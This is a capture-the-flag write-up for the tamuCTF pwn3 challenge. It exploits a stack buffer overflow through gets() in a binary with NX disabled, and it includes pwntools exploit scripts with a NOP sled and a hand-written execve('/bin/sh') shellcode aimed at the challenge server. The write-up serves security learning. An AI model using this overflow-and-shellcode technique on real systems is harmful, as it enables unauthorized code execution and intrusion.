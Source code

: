 ## tamuCTF: pwn3
##### *tl;dr: buffer overflow to execute shellcode on the stack*
#### Making it a habit that whenever there's a pwn chall, we need to check the security measures first using the *checksec* utility from pwntools:
```
$ checksec pwn3
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
#### As we can see, the output is different from the previous pwn challenges. This binary has no canary and has NX disasbled - meaning we can execute code on the stack. More details [here](http://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/). Basically, no canary means that we can do some kind of a buffer overflow on the stack, since no measures are put in place to determine whether some part of it is overwritten. NX, short-hand for 'non-executable', is disabled meaning segments of the binary are not only writeable, but also executable. We run the binary to have an initial look at what it does:
```
$ ./pwn3
  Take this, you might need it on your journey 0xff92adce!
```
#### From what we see, it prints out that string and waits for user input afterwards. The printed string comes with some kind of an address (which changes everytime the binary is executed) which will be useful later on. We then fire up gdb to look at the inner workings of the challenge. 
```
$ gdb ./pwn3
  gdb-peda$ disas main
   [...]
   0x00000612 <+47>:	add    esp,0x10
   0x00000615 <+50>:	call   0x59d <echo>
   0x0000061a <+55>:	mov    eax,0x0
   0x0000061f <+60>:	lea    esp,[ebp-0x8]
   [...]
```
#### The call to a function called ```echo``` is interesting, let's have a deeper look at it by disassembling the function:
```
gdb-peda$ disas echo
  Dump of assembler code for function echo:
     0x0000059d <+0>:	  push   ebp
     0x0000059e <+1>:	  mov    ebp,esp
     0x000005a0 <+3>:	  push   ebx
     0x000005a1 <+4>:	  sub    esp,0x134
     0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
     0x000005ac <+15>:	add    ebx,0x1a20
     0x000005b2 <+21>:	sub    esp,0x8
     0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
     0x000005bb <+30>:	push   eax
     0x000005bc <+31>:	lea    eax,[ebx-0x191c]
     0x000005c2 <+37>:	push   eax
     0x000005c3 <+38>:	call   0x410 <printf@plt>
     0x000005c8 <+43>:	add    esp,0x10
     0x000005cb <+46>:	sub    esp,0xc
     0x000005ce <+49>:	lea    eax,[ebp-0x12a]
     0x000005d4 <+55>:	push   eax
     0x000005d5 <+56>:	call   0x420 <gets@plt>
     0x000005da <+61>:	add    esp,0x10
     0x000005dd <+64>:	nop
     0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
     0x000005e1 <+68>:	leave  
     0x000005e2 <+69>:	ret    
  End of assembler dump.
```
#### The function loads whatever are in the locations ```[ebp-0x12a]``` and ```[ebx-0x191c]``` into the stack and used as arguments for the printf call. Recalling what we have got so far with the initial start up of the binary, we know that ```[ebx-0x191c]``` in this part stores the address which is printed. Looking below the disassembly, we see a ```gets``` call which stores the input into the buffer at ```[ebp-0x12a]```. The size of the buffer is 0x12a(298) and that is the exact offset at which the stack can be started to be overwritten.
#### Putting together what we already know, we can perform a buffer overflow attack and execute some code in the stack. So our exploit method will be a buffer overflow into executing shellcode. To do that, we need the address of the stack - but that isn't a problem anymore since the address for the stack is already given at the start of the program. So our exploit method will be buffer overflow into changing eip to stack address and placing our shellcode in there for the stack to execute. We create a simple exploit.py script and test it locally to see if it's able to execute our sigtrap:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
p = process('./pwn3')

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack)
sigtrap = '\xCC'
exploit = offset + esp + sigtrap

#: Send data
p.sendline(exploit)
print(p.recv())
```
#### We run the script, but we get an error:
```
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 919)
```
#### Let's try to redirect the output of the script into a file and use gdb to analyze what's happening.
```
$ python exploit.py > exploit
$ gdb ./pwn3
    gdb-peda$ r < exploit
        [...]
        0xffffd069:	inc    ecx
        0xffffd06a:	inc    ecx
        0xffffd06b:	inc    ecx
     => 0xffffd06c:	ds iret 
        0xffffd06e:	(bad)  
        0xffffd06f:	dec    esp
        0xffffd071:	int3   
        0xffffd072:	int3
        [...]
```
#### We see here that the program stops even before it reaches our int3 (sigtrap) instructions. This is due to the ```ds iret``` call which switches program execution into user mode. What I did was to look for another address in the stack which can be able to execute our code. I don't remember the exact details of how I did this, but what I do remember is that I found some address on the stack that executes the sigtraps, noted it, subtracted it with the given stack address on the start of the program, and got the exact offset to begin executing code - stack + 311. After we point the eip into that address of the stack, we'd need to perform a short ```nopsled``` (a sequence of NOP (no-operation) instructions meant to "slide" the CPU's instruction execution flow to its final, desired destination whenever the program branches to a memory address anywhere on the slide) in order to call our shellcode. The shellcode I will be using is handcrafted (needed to learn the basics of shellcoding. Great resource [here](https://0x00sec.org/t/linux-shellcoding-part-1-0/289)). We know create our final exploit script to connect with the challenge server, get a shell, and print out our flag:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4323
p = remote(HOST,PORT)

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack + 311)
nopsled = '\x90' * 10
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\x0b\xcd\x80'
exploit = offset + esp + nopsled + shellcode

#: Send data
p.sendline(exploit)
p.sendline('cat flag.txt')
print(p.recv())
```
#### And finally, after 3 days of being stuck at the challenge, we get the flag.
```
$ python exploit.py

Take this, you might need it on your journey 0xffdb4d5e!

gigem{r3m073_fl46_3x3cu710n}
```
